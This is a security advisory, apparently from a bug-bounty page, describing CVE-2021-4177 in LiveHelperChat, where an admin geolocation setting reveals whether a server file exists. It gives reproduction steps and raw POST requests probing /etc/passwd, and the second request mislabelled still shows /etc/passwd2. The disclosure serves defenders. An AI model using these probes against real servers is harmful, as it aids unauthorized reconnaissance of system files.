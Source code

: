 +++
title = "CVE-2021-4177 - Generation of Error Message Containing Sensitive Information LiveHelperChat"
+++

# Description

When updating the geolocation detection configuration, we're given the option to specify a file location of a city database file, this can be used to determine if files exist or not. We are not able to see the contents of the file, but we are indeed able to determine if the file exists based on the server's response.

If the file location is highlighted green, we know that the file exists. But if the file location is highlighted red (indicating an error), we know that the file does not exist.

It can also be further confirmed that the file does not exist by right-clicking the red highlight error & inspecting element, then the title of the element would be File does not exist

# Steps to Reproduce

1. Go to `/site_admin/chat/geoconfiguration#!#geoconfiguration`
2. Scroll to *Location of city database*
3. Enter any file location (EX: /etc/passwd2)
4. Click save
5. Notice that the file path is highlighted in red, indicating that it doesn't exist.
6. Then enter a file that does exist (/etc/passwd)
7. Click save
8. Notice that the file path is now highlighted in green, indicating that the file exists

# Proof of Concept

**Request for /etc/passwd2:**

```
POST https://demo.livehelperchat.com/site_admin/chat/geoconfiguration
csfr_token=3e590eb50d05c23820386a0f75ef2c51
GeoDetectionEnabled=on
freegeoip_key
ServerVariableGEOIP_COUNTRY_CODE=GEOIP_COUNTRY_CODE
ServerVariableGEOIP_COUNTRY_NAME=GEOIP_COUNTRY_NAME
ServerVariableGEOIP_CITY=GEOIP_CITY
ServerVariableGEOIP_REGION=GEOIP_REGION
ServerVariableGEOIP_LATITUDE=GEOIP_LATITUDE
ServerVariableGEOIP_LONGITUDE=GEOIP_LONGITUDE
ipapi_key
abstractapi_key
UseGeoIP=max_mind
CityGeoLocation=/etc/passwd2
MaxMindDetectionType=country
ipinfodbAPIKey
locatorhqAPIKey
locatorhqUsername
locatorhqIP=192.168.1.183
StoreGeoIPConfiguration=Save
```

**Request for /etc/passwd:**

```
POST https://demo.livehelperchat.com/site_admin/chat/geoconfiguration
csfr_token=3e590eb50d05c23820386a0f75ef2c51
GeoDetectionEnabled=on
freegeoip_key
ServerVariableGEOIP_COUNTRY_CODE=GEOIP_COUNTRY_CODE
ServerVariableGEOIP_COUNTRY_NAME=GEOIP_COUNTRY_NAME
ServerVariableGEOIP_CITY=GEOIP_CITY
ServerVariableGEOIP_REGION=GEOIP_REGION
ServerVariableGEOIP_LATITUDE=GEOIP_LATITUDE
ServerVariableGEOIP_LONGITUDE=GEOIP_LONGITUDE
ipapi_key
abstractapi_key
UseGeoIP=max_mind
CityGeoLocation=/etc/passwd2
MaxMindDetectionType=country
ipinfodbAPIKey
locatorhqAPIKey
locatorhqUsername
locatorhqIP=192.168.1.183
StoreGeoIPConfiguration=Save
```

# Reference - https://huntr.dev/bounties/ac641425-1c64-4874-95e7-c7805c72074e/
